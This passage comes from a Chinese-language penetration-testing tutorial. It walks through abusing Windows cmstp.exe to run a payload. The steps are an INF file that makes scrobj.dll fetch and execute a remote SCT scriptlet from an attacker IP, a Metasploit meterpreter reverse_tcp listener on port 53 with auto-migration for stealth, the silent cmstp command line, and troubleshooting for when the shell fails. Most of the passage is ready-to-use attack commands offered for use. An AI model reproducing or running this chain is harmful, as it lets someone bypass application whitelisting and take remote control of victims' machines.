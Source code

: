 **远程SCT的INF文件**：
```inf
[version]
Signature=$chicago$
AdvancedINF=2.5
[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection
[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http://192.168.1.4/cmstp_rev_53_x64.sct
[Strings]
AppAct="SOFTWARE\Microsoft\Connection Manager"
ServiceName="Micropoor"
ShortSvcName="Micropoor"
```

- 说明：
  - `UnRegisterOCXs`：指定在卸载时执行的OCX/DLL/SCT。
  - 本地路径（如`C:\Users\12306Br0\Desktop\a\payload.dll`）或远程WebDAV路径（如`http://192.168.1.4/cmstp_rev_53_x64.sct`）均可。
  - `scrobj.dll`：用于执行SCT脚本的COM组件。

将INF文件保存到靶机（如`C:\Users\12306Br0\Desktop\a\add.inf`）。

#### 3.配置攻击机监听
在攻击机上使用Metasploit配置反弹Shell监听：

```bash
msf5>use exploit/multi/handler
msf5 exploit(multi/handler)>set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler)>set LHOST 192.168.126.146
msf5 exploit(multi/handler)>set LPORT 53
msf5 exploit(multi/handler)>set AutoRunScript migrate -f
msf5 exploit(multi/handler)>exploit
```

- 参数说明：
  - `payload`：使用`windows/meterpreter/reverse_tcp`生成反弹Shell。
  - `LHOST`和`LPORT`：指定攻击机IP和端口（此处为53，可能用于规避防火墙）。
  - `AutoRunScript migrate -f`：自动迁移Meterpreter会话到其他进程（如`explorer.exe`），增强隐蔽性。

#### 4.执行Payload
在靶机上执行`Cmstp.exe`，加载INF文件：

```cmd
cmstp.exe /ni /s C:\Users\12306Br0\Desktop\a\add.inf
```

- 参数说明：
  - `/ni`：不创建桌面快捷方式，减少可见痕迹。
  - `/s`：指定INF文件路径。

如果INF文件引用远程SCT，还需在攻击机上托管SCT文件（如通过WebDAV服务器）。

#### 5.反弹Shell
执行后，`Cmstp.exe`加载INF文件中指定的DLL或SCT，触发Payload，靶机连接到攻击机的Metasploit监听端口，生成Meterpreter会话。若未获取Shell，可能原因包括：
- 防火墙阻止出站连接。
- INF文件配置错误（如路径无效）。
- Payload与系统架构不兼容（需确认32位/64位）。
